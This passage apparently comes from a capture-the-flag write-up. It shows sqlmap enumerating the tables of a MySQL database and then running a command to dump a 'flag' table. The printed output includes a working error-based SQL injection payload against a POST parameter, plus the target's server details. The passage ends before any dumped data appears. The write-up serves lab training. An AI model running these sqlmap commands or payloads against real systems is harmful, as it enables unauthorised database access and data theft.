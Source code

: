 ```
[18:12:06] [INFO] retrieved: 'summary'
[18:12:07] [INFO] retrieved: 'admin_logon'
[18:12:14] [INFO] retrieved: 'temp'
[18:12:44] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[18:12:45] [INFO] retrieved: 'users'
[18:12:46] [INFO] retrieved: 'personal_info'
[18:12:46] [INFO] retrieved: 'notice'
[18:12:47] [INFO] retrieved: 'log'
[18:12:47] [INFO] retrieved: 'pm_content'
Database: app
[12 tables]
+---------------+
| log           |
| admin_logon   |
| errors        |
| flag          |
| notice        |
| personal_info |
| pm_content    |
| pm_index      |
| records       |
| summary       |
| temp          |
| users         |
+---------------+

[18:12:47] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/[..snip..]'
```
**Step 3 – Capture the Flag**
```
#sqlmap -r search.req -D app -T flag --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.10#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:14:17 /2021-11-30/

[18:14:17] [INFO] parsing HTTP request from 'search.req'
[18:14:17] [WARNING] provided value for parameter 'status[1379]' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[18:14:17] [INFO] resuming back-end DBMS 'mysql' 
[18:14:17] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: status[1379] (POST)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: status[1379]=' AND EXTRACTVALUE(5008,CONCAT(0x5c,0x7162627171,(SELECT (ELT(5008=5008,1))),0x71786b7a71)) AND 'MtZI'='MtZI&change=Save status
---
[18:14:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 7 (wheezy)
web application technology: Apache 2.2.22, PHP 5.4.45
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
```